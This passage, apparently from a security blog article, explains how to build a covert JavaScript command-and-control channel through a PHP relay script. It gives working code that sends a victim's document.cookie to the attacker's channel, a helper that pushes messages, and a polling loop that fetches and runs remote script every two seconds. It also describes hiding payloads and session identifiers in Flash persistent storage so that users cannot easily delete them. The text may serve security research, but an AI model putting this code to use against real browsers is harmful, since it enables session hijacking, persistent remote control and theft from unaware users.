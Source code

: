 The function described above needs to be pushed to the client via `channel.php?action=push`. Than the attacker needs to push a call to that function in the same way it was described earlier in this article:

```javascript
var img = new Image();
img.src = 'http://path/to/channel.php?action=push&client=<session_id>&message=pingback("' + document.cookie + '");';
```

If the client is visible the function `ping_receive` will be informed on the attacker's side.

You may have already noticed that the process of pushing and pulling events from the channel abuses standard elements from the XHTML/HTML context. Image objects will result in GET request while SCRIPT elements result in evaluated code from the result body. Instead of writing the same thing all over again, the process can be simplified by creating generic function for example:

```javascript
function push_message(to, message) {
	var img = new Image();
	img.src = 'http://path/to/channel.php?action=push&client=' + to + '&message=' + message + ';
}
```

The code above simplifies the process by wrapping the push functionality in function called `push_message`. This function together with the pulling mechanism described earlier can be part of a malicious payload that a media file is infected with for example.

The need to push functionalities down to clients is inevitable. They can store web based keylogging software, port and network scanners, exploits and other attack scripts. Pushing code every time something needs to be done is not efficient. In this case persistent storage mechanism is required.

I have already discussed this issue in several of my previous post but I will mention it here again. Attackers can push code and save it on the client via the Persistent [Flash Storage Model](http://codinginparadise.org/projects/storage/README.html). This technique provides around 100K storage capabilities that can contain plenty of functionalities in compressed JavaScript format. More over, unaware users cannot trivially delete it. Clearing the cookies will not clear the persistent storage. This mechanism is quite suitable for covert channels or for a storage place where malicious code can be resurrect from upon visit of a malicious domain.

This is very good time to mention that once the infected user clears their cookies the persistent communication will be lost. As I said earlier the process relies on cookies. Since the Persistent Flash Storage Model is not cleared, this is the place where attackers may want to store the session identifier as well and use it in the following way when pulling messages from the message queue.

```javascript
setInterval(function () {
	var script = document.createElement('script');
	
	script.src = 'http://path/to/channel.php?action=pull&client=' + client_id;
	script.differ = true;
	script.type = 'text/javascript';
	
	script.onload = function () {
		document.body.removeChild(script);
	}
	
	document.body.appendChild(script);
}, 2000);
```

